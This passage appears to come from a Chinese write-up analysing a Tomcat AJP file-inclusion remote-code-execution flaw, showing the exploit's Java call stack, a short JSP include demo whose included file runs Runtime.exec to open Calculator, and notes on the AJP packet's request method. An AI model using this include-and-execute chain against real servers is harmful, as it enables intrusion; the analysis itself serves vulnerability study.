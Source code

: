 最后附上RCE的调用栈

```
Copy to clipboardexec:347, Runtime (java.lang)
_jspService:1, _1_txt (org.apache.jsp)
service:70, HttpJspBase (org.apache.jasper.runtime)
service:741, HttpServlet (javax.servlet.http)
service:476, JspServletWrapper (org.apache.jasper.servlet)
serviceJspFile:386, JspServlet (org.apache.jasper.servlet)
service:330, JspServlet (org.apache.jasper.servlet)
service:741, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:52, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:199, StandardWrapperValve (org.apache.catalina.core)
invoke:96, StandardContextValve (org.apache.catalina.core)
invoke:493, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:137, StandardHostValve (org.apache.catalina.core)
invoke:81, ErrorReportValve (org.apache.catalina.valves)
invoke:660, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:87, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:476, AjpProcessor (org.apache.coyote.ajp)
process:66, AbstractProcessorLight (org.apache.coyote)
process:808, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1498, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang) 
```

**后话**

我试了一下jsp的文件包含，这个demo下也是可以的，所以实际上RCE就是jsp的文件包含搞的鬼，要先上传一个文件，这个文件路径可被包含，然后读取模版解析，最后RCE。

```
Copy to clipboard//1.jsp
<%@ page language="java" import="java.util.*" pageEncoding="UTF-8" %>
<%@ include file="1.txt" %> `[//1.txt](//1.txt)

<%@ Runtime.getRuntime().exec(“open /System/Applications/Calculator.app”);%>` 
```

另外前面可能有师傅会问为什么是GET，原因是下面这个POC有`forwardrequest 2`，根据AJP数据包格式`第6个字节(02)代表是Get请求`。另外在Tomcat中也有相关映射关系，在 **AjpProcessor** 做 **prepareRequest** 处理的时候会根据字节选择相关的请求方式。

![image](img/c46ffe5bd2bbdfdff1e13f97533910be.png)
